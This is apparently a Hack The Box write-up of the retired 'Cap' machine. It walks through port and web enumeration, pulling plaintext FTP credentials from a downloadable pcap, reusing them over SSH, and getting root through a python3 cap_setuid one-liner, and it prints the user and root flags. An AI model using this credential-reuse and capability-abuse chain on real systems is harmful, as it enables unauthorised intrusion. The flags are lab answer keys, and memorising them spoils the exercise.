

# Cap by k0rriban

## htbexplorer report
|  Name      |  IP Address   |  Operating System  |  Points  |  Rating  |  User Owns  |  Root Owns  |  Retired  |  Release Date  |  Retired Date  |  Free Lab  |  ID   | 
| :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: |
| Cap            | 10.10.10.245  | Linux              | 20       | 4.3      | 23633       | 22528       | Yes       | 2021-06-05     | 2021-10-02     | No         | 351          |

## Summary
1. Scan ports -> 21,22,80
2. Enumerate port 80 -> `/capture` redirects to `/data/2`
3. Download from `/data/0` and read `.pcap` file -> `nathan:Buck3tH4TF0RM3!`
4. Use credentials on `nathan@10.10.10.245` -> User shell as `nathan` (user flag)
5. Enumerate capabilities of files -> `/usr/bin/python3` with `set_uid` capability
6. Exploit `set_uid` capability -> `Root shell` (root flag)

## Enumeration
### OS
|  TTL      |  OS  |
| :-: | :-: |
| +- 64    | Linux |
| +- 128   | Windows |

As we can see in the code snippet below, the operating system is Linux.
```bash
❯ ping -c 1 10.10.10.245
PING 10.10.10.245 (10.10.10.245) 56(84) bytes of data.
64 bytes from 10.10.10.245: icmp_seq=1 ttl=63 time=38.7 ms
```

### Nmap port scan
First, we will scan the host for open ports.
```bash
❯ sudo nmap -p- -sS --min-rate 5000 10.10.10.245 -v -Pn -n -oG Enum/allPorts
```
With the utility `extractPorts` we list and copy the open ports:
```bash
❯ extractPorts Enum/allPorts

[*] Extracting information...

	[*] IP Address:  10.10.10.245 

	[*] Open ports:  21,22,80 


[*] Ports have been copied to clipboard...
```
Run a detailed scan on the open ports:
```bash
❯ nmap -p22,80,6379,10000 -sVC -n 10.10.10.160 -oN Enum/targeted
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-title: Security Dashboard
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Wed, 15 Jun 2022 20:09:53 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Wed, 15 Jun 2022 20:09:48 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Wed, 15 Jun 2022 20:09:48 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, HEAD, GET
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
```

#### Final nmap report
| Port  |  Service  |  Version  | Extra |
| :-: | :-: | :-: | :-: |
| 21 | ftp     | 3.0.3    | No anonymous login |
| 22 | ssh     | 8.2p1    | - |
| 80 | http    | gunicorn | - |

### Port 80 enumeration
#### Technology scan
```shell
❯ whatweb 10.10.10.245
http://10.10.10.245 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[gunicorn], IP[10.10.10.245], JQuery[2.2.4], Modernizr[2.8.3.min], Script, Title[Security Dashboard], X-UA-Compatible[ie=edge]
```
Toguether with `wappalyzer`:
| Technology | Version | Detail |
| :-: | :-: | :-: |
| JQuery | 2.2.4 | - |
| Modernizr | 2.8.3.min | - |
| HTTPServer | gunicorn | - |

#### Web content discovery
Let's enumerate all the folders and pages without extension on the macine:
```
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -L -t 200 --hc 404 --hh 19385 "http://10.10.10.245/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.245/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000941:   200        354 L    1055 W     17452 Ch    "ip"              
000004942:   200        651 L    4136 W     55327 Ch    "netstat"         
000008555:   200        370 L    993 W      17152 Ch    "capture"

As we don't know the domain name, we cannot perfomar subdomain fuzzing.

#### Manual enumeration
When accessing to `/capture`, we can see the following page:

From here, we can download a `.pcap` file and read it with `tshark`:
```shell
❯ mv ~/Downloads/2.pcap Results
❯ tshark -r Results/2.pcap | grep pass
2448   2.387513  10.10.14.17 → 10.10.10.245 HTTP 208 GET /forgot-password HTTP/1.1 
```
But this file contains 7200 packets and none has useful information. Anyway, if we fuzz the folder `/data/`:
```shell
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -L -t 200 --hc 404 --hh 19385 "http://10.10.10.245/data/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.245/data/FUZZ
Total requests: 4712

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000096:   200        370 L    993 W      17146 Ch    "0"               
000000098:   200        370 L    993 W      17152 Ch    "01"              
000000097:   200        370 L    993 W      17146 Ch    "00"              
000000132:   200        370 L    993 W      17152 Ch    "2"               
000000099:   200        370 L    993 W      17152 Ch    "02"       
```
We see we can access to `/data/1` and `/data/0`, let's download their `pcap` files:
```shell
❯ mv ~/Downloads/1.pcap Results
❯ tshark -r Results/1.pcap | grep pass
2448   2.387513  10.10.14.17 → 10.10.10.245 HTTP 208 GET /forgotpasswd HTTP/1.1 
❯ mv ~/Downloads/0.pcap Results
❯ tshark -r Results/0.pcap | grep FTP
   34   2.626895 192.168.196.16 → 192.168.196.1 FTP 76 Response: 220 (vsFTPd 3.0.3)
   36   4.126500 192.168.196.1 → 192.168.196.16 FTP 69 Request: USER nathan
   38   4.126630 192.168.196.16 → 192.168.196.1 FTP 90 Response: 331 Please specify the password.
   40   5.424998 192.168.196.1 → 192.168.196.16 FTP 78 Request: PASS Buck3tH4TF0RM3!
   42   5.432387 192.168.196.16 → 192.168.196.1 FTP 79 Response: 230 Login successful.
```
As we can see, when looking at the `FTP traffic` we can read the credentials `nathan:Buck3tH4TF0RM3!`.

### Port 21 enumeration
Now that we have valid `ftp credentials`, we can login into the ftp server and see its content:
```shell
❯ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:r3van): nathan
331 Please specify the password.
Password: # Buck3tH4TF0RM3!
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Jun 15 19:45 user.txt
226 Directory send OK.
```
We obtained the `user.txt` file but not a shell.

## User shell
Trying password reuse, we can try to login through ssh as `nathan`:
```shell
❯ ssh nathan@10.10.10.245
nathan@10.10.10.245\'s password: # Buck3tH4TF0RM3!
nathan@cap:~$ hostname -I
10.10.10.245 dead:beef::250:56ff:feb9:7787
```
We obtained a user shell as `nathan`.

## Privilege escalation
First, let's see if there are other users we need to pivot to:
```shell

```
As they aren't, we can try enumerating `nathan`'s root permits:
```shell
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
nathan@cap:~$ cat /etc/sudoers
cat: /etc/sudoers: Permission denied
```
But nathan is not in the sudoers group. So we could try to enumerate `suid` permissions and `setuid` capabilities:
```shell
# SUID files
nathan@cap:~$ find / -perm -4000 2>/dev/null
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
# Nothing exploitable
/snap/core18/2074/bin/ping
/snap/core18/2074/bin/su
/snap/core18/2074/bin/umount
/snap/core18/2074/usr/bin/chfn
/snap/core18/2074/usr/bin/chsh
/snap/core18/2074/usr/bin/gpasswd
/snap/core18/2074/usr/bin/newgrp
/snap/core18/2074/usr/bin/passwd
/snap/core18/2074/usr/bin/sudo
/snap/core18/2074/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2074/usr/lib/openssh/ssh-keysign
```
Capabilities enumeration:
```shell
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
As we can see `/usr/bin/python3.8` has `setuid` capability, and we can use it to obtain a root shell as:
```shell
nathan@cap:~$ python3 -c 'import os; import pty; os.setuid(0); pty.spawn("/bin/bash
")'
root@cap:~# hostname -I
10.10.10.245 dead:beef::250:56ff:feb9:7787
```
We obtained root shell on Cap.

## CVE
No CVEs were consulted for this machine.

## Machine flags
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | 005fa3afb3c8b5a5e84c9fc40b8372bd | No | 15-06-2022|
| Root | aa91d5d3c9d3de941ad767923abe60b4 | No | 15-06-2022|

## References
- https://gtfobins.github.io/gtfobins/python/#capabilities